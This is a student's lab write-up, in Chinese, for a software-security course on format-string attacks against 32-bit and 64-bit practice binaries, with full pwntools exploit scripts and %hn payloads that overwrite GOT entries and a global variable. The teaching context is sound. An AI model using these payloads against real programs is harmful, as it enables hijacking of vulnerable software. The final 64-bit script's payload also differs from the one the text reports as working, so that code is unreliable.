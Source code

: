 解雲暄	3190105871

## 01 fmt32
需要`export LD_LIBRARY_PATH=~/Desktop/ssec/ssec22spring-stu/hw-03/01_fmt32`才可以运行！


### Step 1
找到目标地址：
![image.png](./assets/1650509130813-60c7cb02-8143-4ff9-97b4-26c21ee99be5.png)


#### Trial 1
本来想通过更改 `ret addr` 劫持控制流，但是由于每次栈的位置不一样，因此每次 `ret addr` 的位置也不一样，所以这种方法可能不太现实：
![image.png](./assets/1650500128985-1b480e7e-259f-495e-9206-fde60493058b.png)

![image.png](./assets/1650504324949-de31acef-4830-497e-9d58-7a319948f63a.png)


#### Trial 2
下面我们试图更改 got 表；鉴于 `printf` 后面调用的是 `puts`，因此我们首先找到 `puts` 的 got 表信息：
![image.png](./assets/1650502903319-f070c285-4931-410e-af7e-318fbecfe806.png)
因此，我们希望将 0x0804d0a8 位置的值改为 0x0804a279

运行一下程序，输入 `AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.`，查看偏移：
![image.png](./assets/1650507177666-ef7fab1a-de95-4353-bc4e-96b8d2f8298b.png)
可以发现，偏移是 7。

因此我们设计了如下的结构：
![image.png](./assets/1650509032933-3e81b015-9a1a-48f7-9964-3c166856d898.png)
其中，2044 = 0x804 - 8，39541 = 0xa279 - 2052，最开始的 -8 是两个地址的字节数。<br />即，payload 是：
```python
puts_got = 0x0804d0a8 
payload = p32(puts_got + 2) + p32(puts_got) + b'%2044x%7$hn%39541x%8$hn' 
```
得到了 Try harder！
![image.png](./assets/1650508968266-6725ac36-0440-4802-853f-14e6bb5caae3.png)


### Step 2
Step 2 要求我们进一步将全局变量 `id` 改为 3190105871，即 0xbe25270f。`id`的地址已经在程序中输出了。

由于 0xbe25 = 48677，0x270f = 9999，我们的 payload 中应该放 4 个 `%x`和 4 个地址，其中 4 个 `%x` 的宽度分别是：<br />0x804 - 4 * 4 = **2036**, 0x270f - 0x804 = **7947**, 0xa279 - 0x270f = **31594**,  0xbe25 - 0xa279 = **7084**

这四个宽度对应的地址分别为 puts_got + 2, id_addr, puts_got, id_addr + 2，即 payload 是：
```cpp
payload = p32(puts_got + 2) + p32(id_addr) + p32(puts_got) + p32(id_addr + 2) + b'%2036x%7$hn%7947x%8$hn%31594x%9$hn%7084x%10$hn' 
```
得到了正确结果！
![image.png](./assets/1650536724218-b1f563c6-3921-49be-a489-a2d684cfae96.png)


### Notes
调试过程中遇到了 `__GI___ctype_init()` 中出现段错误的问题，Google 了一下发现了如下的 bug：[https://github.com/Gallopsled/pwntools/issues/1783](https://github.com/Gallopsled/pwntools/issues/1783)，于是换用 `gdb.attach()`实现调试，而不是之前的 `gdb.debug()`。


### Code
```cpp
from pwn import *
context.log_level = 'DEBUG'

conn = process('./echo')
#gdb.attach(conn, 'b *0x0804a7b2')

id_addr = conn.recvline()
id_addr = int(id_addr[-9:-1], 16)

#import time
#time.sleep(5)		# for debug, in case that the process terminates
					# before gdb.attach() to insert the breakpoint.

conn.recvuntil("...\n")
puts_got = 0x0804d0a8 
#payload = p32(puts_got + 2) + p32(puts_got) + b'%2044x%7$hn%39541x%8$hn' 
payload = p32(puts_got + 2) + p32(id_addr) + p32(puts_got) + p32(id_addr + 2) + b'%2036x%7$hn%7947x%8$hn%31594x%9$hn%7084x%10$hn' 
conn.sendline(payload)

conn.interactive()
```


## 02 fmt64
需要`export LD_LIBRARY_PATH=~/Desktop/ssec/ssec22spring-stu/hw-03/02_fmt64`。

和前一个题目一样，找到相关信息：
![image.png](./assets/1650537163345-3259d569-d217-4c74-bd34-26c870031e00.png)
![image.png](./assets/1650537210862-bcae39ce-1658-49be-9fbd-fccf519e59c2.png)
即希望将 0x604068 位置的值改为 0x0000 0000 0040 29b4；按 `%hn` 放的话 0x604068 放 0x29b4，0x60406a 放 0x40，0x60406c 按 `%n` 放 0 就好了。后面我们还需要将全局变量 `id` 改为 3190105871，即 0xbe25270f，那么可以在 id_addr + 2 放 0xbe25，在 id_addr 放 0x270f。将这些要填的东西从小到大排列一下，就是：`0, 0x40, 0x270f, 0x29b4, 0xbe25`。

另外考察 `va_list` 到 `buf` 的偏移：
![image.png](./assets/1650537848055-0c9b6470-1f65-414c-9911-2b11593174c0.png)
可以发现，偏移是 6。


### 思考题
> 阐述 32 位 fsb 攻击和 64 位 fsb 攻击存在的主要区别，能不能直接将 32 位的攻击方式用到 64 位上呢？为什么？

不能。<br />实验中可以发现的问题是，由于 64 位下地址会有前导 0；而 0 是字符串结束的标志。`printf()`打印到 0 的时候就会结束，因此如果我们像 32 位那样将地址放在 payload 的前面的话输出到 0 就会停下来，后面的 `%n` 之类的东西就运行不到了。所以我们需要将这些格式控制字符串往前放。<br />另外还存在的区别是，64 位和 32 位的传参方式不一样，64 位下函数调用的前 6 个参数存在寄存器里；当然这道题中我们暂时不需要考虑这个区别。


### 解题过程
之前分析了，我们希望将 0x604068 位置的值改为 0x0000 0000 0040 29b4；按 `%hn` 在 0x604068 放 0x29b4，0x60406a 放 0x40，0x60406c 按 `%n` 放 0 就好了。<br />但是，我们要在 payload 中放地址 0x604068，实际上会放成 `0x0000 0000 0060 4068`，如同思考题中我们分析的那样，这会使得 printf 在在这里直接结束，因此我们需要将地址放在 `%n` 之类的东西后面。（就会很难算 TAT）

我们构造这样的 payload 结构：
![image.png](./assets/1650545911896-980cfdc4-5f6e-46ee-a802-e33be75b2979.png)
注意到这个 payload 本身会被视为参数列表的一部分，因此我们需要将内容保持 8 字节偏移。我们算出前面部分共 51 个字节，为了保证偏移，我们补充了 5 个 `'A'` 用来填充。<br /> <br />即，我们的 payload 就是：
```cpp
payload = b'%13$n%64x%14$hn%9935x%15$hn%677x%16$hn%38001x%17$hnAAAAA' + p64(puts_got + 4) + p64(puts_got + 2) + p64(id_addr) + p64(puts_got) + p64(id_addr + 2)
```
得到了正确结果！
![image.png](./assets/1650546117657-e88728ca-400d-48a0-87b1-f45dc742e767.png)

等价地，也可以构造这样的 payload 结构：
![image.png](./assets/1650548707837-013b9e86-309e-4a41-a995-6d545d3f2b2d.png)
这样的 payload 结构让每个格式控制字符串中的单元都占 8 个字节。<br />为什么 $7 是 %57x 呢？本来我们需要 %64x，但是截至 $8 的 %hn 之前，我们总共会输出 7 个 `'A'`，即 $6 三个、$7 四个，所以这里是 64 - 7 = 57。其他的差不多！

即，我们的 payload 就是：
```python
payload = b'%15$nAAA%57xAAAA%16$hnAA%9931xAA%19$hnAA%672xAAA%17$hnAA%37998xA%18$hnAA' + p64(puts_got + 4) + p64(puts_got + 2) + p64(puts_got) + p64(id_addr + 2) + p64(id_addr)
```
也可以得到正确结果。


### Code
```cpp
from pwn import *
context.log_level = 'DEBUG'

conn = process('./echo')
gdb.attach(conn, 'b *0x402cb6')

id_addr = conn.recvline()
id_addr = int(id_addr[-7:-1], 16)

#import time
#time.sleep(5)		# for debug, in case that the process terminates
					# before gdb.attach() to insert the breakpoint.

conn.recvuntil("...\n")
puts_got = 0x604068 
payload = b'%13$n%64x%14$hn%9935x%15$hn%677x%16$hn%38001x%17$hnAAAAA' + p64(puts_got + 4) + p64(puts_got + 2) + p64(id_addr + 2) + p64(puts_got) + p64(id_addr + 2)

conn.sendline(payload)

conn.interactive()
```


## Bonus
摸了）
